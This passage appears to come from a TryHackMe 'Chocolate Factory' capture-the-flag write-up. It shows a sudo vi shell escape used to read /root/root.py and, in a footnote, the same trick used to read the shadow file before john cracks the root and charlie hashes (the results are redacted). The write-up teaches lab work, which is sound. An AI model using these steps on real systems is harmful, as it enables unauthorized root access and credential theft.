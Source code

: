 {% highlight shell %}
" ============================================================================
" Netrw Directory Listing                                        (netrw v156)
"   /root
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\.obj$,\.info$,\.swp$,\.bak$,\~$
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                                                                                                                      
./
.cache/
.gnupg/
.local/
.ssh/
root.py*
.bash_history
.bashrc
.profile
.selected_editor
{% endhighlight %}

I use this (below) to read *root.py*:

``
charlie@chocolate-factory:/$ sudo -u root /usr/bin/vi -c :! /root/root.py
`` 

I copy the contents, then run the script:

{% highlight shell %}
root@kali:/opt/tryhackme/choc# pip install pyfiglet
root@kali:/opt/tryhackme/choc# python root.py 
root.py:1: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.fernet import Fernet
Enter the key:  b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=' 
{% endhighlight %}

And this gave me the root flag. Done? Almost....

## Footnote
While I was on the box I used the *vi* technique to read the shadow file and threw the hashes for *root* and *charlie* at john:

{% highlight shell %}
root@kali:/opt/tryhackme/choc# john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Remaining 2 password hashes with 2 different salts
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED             (?)
REDACTED             (?)
2g 0:00:09:40 DONE (2021-01-17 23:02) 0.003442g/s 767.2p/s 1534c/s 1534C/s 231118..222213
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}	
